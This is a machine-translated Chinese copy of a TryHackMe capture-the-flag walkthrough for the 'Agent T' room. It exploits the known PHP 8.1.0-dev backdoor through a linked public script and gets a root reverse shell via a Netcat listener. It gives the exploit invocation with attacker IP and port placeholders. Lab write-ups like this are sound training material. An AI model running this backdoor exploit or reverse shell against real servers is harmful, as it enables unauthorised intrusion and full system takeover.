








# TryHackMe 报道:特工 T

> 原文：<https://infosecwriteups.com/tryhackme-writeup-agent-t-4807b77f768d?source=collection_archive---------1----------------------->

写一篇文章，描述利用代理 T 的步骤

挑战名称:[特工 T](https://tryhackme.com/room/agentt) 由[约翰·哈蒙德](https://tryhackme.com/p/JohnHammond)

特工测试挑战

> **第一步**

启动机器后，我首先扫描 IP 的开放端口和其他服务，但没有什么有趣的发现。

打开端口 80

> **第二步**

由于端口 80 被打开，我试图检查是否有任何网站托管，有一个网站托管与直接访问管理面板，没有任何认证。

管理仪表板

> **第三步**

我试图在管理面板上找到一些有趣的东西，但是没有任何有趣的东西。所以我打了个嗝来检查 HTTP 头。在响应中我发现了一个有趣的头“ ***X-Powered-By*** ”，这个头的值是“***PHP/8 . 1 . 0-dev***”。

Juciy 标题

> **第四步**

我搜索了与 PHP 版本 8.1.0-dev 相关的漏洞，发现这个版本的 PHP 容易受到远程代码执行的攻击。

漏洞描述

我使用了来自[这里](https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/revshell_php_8.1.0-dev.py)的漏洞脚本，它给出了反向外壳。

> **第五步**

要运行它，我们首先需要启动监听器。

使用 Netcat 启动监听器

现在，我们可以运行这个漏洞，并期望在侦听器上获得反向外壳。

执行漏洞利用

使用以下命令可以利用漏洞:

***python 3 exploit filename . py "目标 URL" <攻击者 IP > <攻击者端口>***

执行此命令后，稍等片刻，您将得到相反的 shell。

反向外壳

我们已经有了根权限。

> **最后一步**

移动到根目录，你会发现那里的标志。

希望你能解决阅读这个问题。

感谢您的阅读。知识就是力量，所以不断获取！😈

跟随我上 [GitHub](https://github.com/gandhidevansh) ！

*来自 Infosec 的报道:Infosec 上每天都会出现很多难以跟上的内容。* [***加入我们的每周简讯***](https://weekly.infosecwriteups.com/) *以 5 篇文章、4 个线程、3 个视频、2 个 Github Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！*